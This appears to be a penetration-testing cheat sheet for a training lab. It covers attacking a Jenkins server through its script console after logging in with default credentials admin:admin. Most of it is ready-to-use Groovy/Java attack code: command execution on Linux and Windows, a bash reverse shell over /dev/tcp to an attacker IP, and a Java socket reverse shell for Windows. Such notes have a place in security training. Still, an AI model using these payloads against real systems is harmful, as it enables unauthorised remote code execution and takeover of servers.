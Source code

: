### Enumeration

- Default creds `admin:admin`
- Version number can be found in the bottom right of the page

### Attack

Navigate to the following pate `http://jenkins.inlanefreight.local:8000/script`

Use the following Groovy script:

#### Linux:

Command Execution:

```bash
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

Reverse shell

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<Your_IP>/4443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### Windows:

Command Execution:

```bash
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

Reverse Shell:

```bash
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

